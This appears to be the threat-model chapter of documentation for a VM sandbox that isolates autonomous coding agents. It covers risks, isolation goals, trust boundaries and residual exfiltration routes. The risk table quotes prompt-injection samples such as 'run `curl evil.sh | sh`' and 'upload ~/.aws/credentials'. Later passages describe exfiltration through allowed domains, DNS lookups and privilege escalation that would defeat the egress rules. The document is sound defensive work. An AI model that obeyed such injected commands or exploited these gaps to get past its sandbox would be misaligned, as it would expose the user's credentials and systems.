

# 1. Threat model

## What we are protecting against

An autonomous coding agent (`copilot --yolo`, `--allow-all`, ...) executes commands **without
asking**. It installs dependencies, writes and runs scripts, and runs builds (Gradle/Maven build
logic is code). Any of these can be harmful, through three main routes:

| Risk | Example |
|------|---------|
| **Prompt injection** | A README, issue, web page or dependency contains instructions such as "run `curl evil.sh \| sh`" or "upload ~/.aws/credentials". |
| **Malicious dependency** | A typosquatted npm/Maven/Gradle plugin runs code at install or build time. |
| **Plain mistakes** | `rm -rf` in the wrong directory, a `git push --force`, or scanning the whole disk "to find the config". |

On a normal laptop, the agent runs as **you**. It can read `~/.ssh`, `~/.aws`, `~/.kube`, browser
profiles, password-manager exports, every other repository and your shell history. It can also
reach every system on your VPN.

## Goals

1. **No access to the host.** No shared folders, no SSH agent, no clipboard and no host network
   services. Only the VM's own disk is visible.
2. **No host secrets in the VM.** Credentials in the VM are created for the VM: a per-repo deploy
   key, a fine-grained PAT and a Copilot token. You can revoke them in seconds.
3. **Controlled egress.** By default the agent can only reach allowlisted domains (GitHub,
   Copilot, Maven Central, Gradle, ...). Private networks (LAN, VPN, host, cloud metadata) are
   always blocked unless you explicitly allow a CIDR.
4. **Cheap to throw away.** If you suspect anything, run `sandbox destroy` and create a new
   sandbox within minutes.
5. **Review without executing.** You review the agent's work on the host without running its
   code: you read diffs, and the PR goes through CI and branch protection.

## Trust boundaries

| Boundary | Enforced by |
|----------|-------------|
| VM ↔ host | Hypervisor via Lima: Apple Virtualization.framework (macOS) or QEMU/KVM (Linux). No shared folders, no agent forwarding, no port forwards and no guest agent. |
| agent ↔ root inside the VM | Unix permissions: the `agent` user has no sudo, no password and no privileged groups. |
| agent ↔ network | nftables owner match (the agent may only use loopback, i.e. the proxy) plus the squid domain allowlist. |

## What is *not* covered (residual risks)

- **Data exfiltration through allowed domains.** If `github.com` is allowed, the agent can push
  your code to *any* GitHub repository it has credentials for, or put data into a gist or an
  issue. Mitigations:
  - Use a deploy key or fine-grained PAT scoped to **one** repository.
  - Do not give the VM more secrets than the task needs.
- **Code you merge.** The sandbox protects your machine, not your production systems. Review PRs
  as you would review a stranger's PR, and rely on branch protection, required reviews and CI.
- **Running agent code on the host.** If you open the agent's project in a host IDE with a
  Gradle/Maven import, the IDE **executes its build scripts on your host**. Use Safe Mode or a
  remote IDE (see [docs/07](07-reviewing-in-intellij.md)).
- **Hypervisor escapes.** These are possible in theory and very rare in practice. They are the
  reason minimal VMMs like Firecracker exist (a possible future hardening, see
  [docs/02](02-isolation-options.md#possible-future-hardening-firecracker-on-linux)).
- **Root inside the VM.** The egress rules restrict the agent user. A local privilege escalation
  inside the guest would let the agent change them. The in-VM policy then no longer applies, and
  the remaining protection is the VM boundary (no host files or secrets). Keep the VM up to date
  (`unattended-upgrades` is active) and never give the agent sudo or Docker (Docker group = root).
- **DNS exfiltration.** This is blocked for the agent by default (`AGENT_DNS=block`), but the
  proxy itself resolves the names the agent requests. A request for
  `<data>.attacker.com` is denied, yet the lookup still happens, so it can leak a small amount of
  data. Use a DNS-filtering upstream resolver if this matters to you.
- **Your terminal.** The agent's output is displayed in your terminal, so escape sequences could
  try to abuse terminal features. The VM's tmux disables clipboard (OSC 52) and passthrough. Keep
  your terminal emulator updated.
